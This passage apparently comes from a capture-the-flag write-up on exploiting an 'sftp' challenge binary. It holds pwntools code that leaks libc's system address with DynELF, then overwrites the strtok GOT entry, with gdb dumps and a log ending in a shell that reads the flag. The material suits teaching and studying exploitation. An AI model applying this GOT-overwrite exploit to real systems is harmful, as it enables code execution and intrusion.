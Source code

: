 ```python
leak8 = lambda x: leak(x, 8)

with context.quiet:
    dynelf = DynELF(leak8, pie_base, elf=ELF('./sftp'))
    system = dynelf.lookup('system', 'libc')
```

The last step is to find a function, which is called with a user-controlled argument. Then, we can write the `system` address into its GOT entry since RELRO is not set to FULL.. We choose `strtok` for this purpose and we achieve a call to this function with the `mkdir` command.

```
                     |parent|            |name| | |type|
0x4994b8ac:	0x00000000c01db33f	0x0000006200000002 _ _ _ _ _ _
0x4994b8bc:	0x0000000000000000	0x0000000000000000             \
                      |size|                  |data|                      (struct file_entry)victim
0x4994b8cc:	0x0000000000000008	0x000055f597a950c0 _ _ _ _ _ _ /
```

```
gdb-peda$ x/gx 0x000055f597a950c0
0x55f597a950c0:	0x00007fb5b6770660
gdb-peda$ p strtok
$9 = {<text variable, no debug info>} 0x7fb5b6770660 <strtok>
```

```python
strtok_got = pie_base + 0x2050c0
write(p64(system), strtok_got)
```

```
gdb-peda$ x/gx 0x55f597a950c0
0x55f597a950c0:	0x00007fb5b6727390
gdb-peda$ p system
$11 = {<text variable, no debug info>} 0x7fb5b6727390 <__libc_system>
```

```
[+] Opening connection to sftp.ctfcompetition.com on port 1337: Done
[*] Paused (press any to continue)
[*] root entry   => 0x5c3d1ee5
[+] magic chunk  => 0x5d6c2342 (67th allocation)
[+] victim chunk => 0x5d6c691b (37th allocation)
[*] diff is 17881 bytes
[+] Setting up file entries: done
[+] PIE base address => 0x5600b26dd000
[+] system address => 0x7fc609926390
[*] Switching to interactive mode
$ id
uid=1337(user) gid=1337(user) groups=1337(user)
$ cat /home/user/flag
CTF{Moar_Randomz_Moar_Mitigatez!}
```

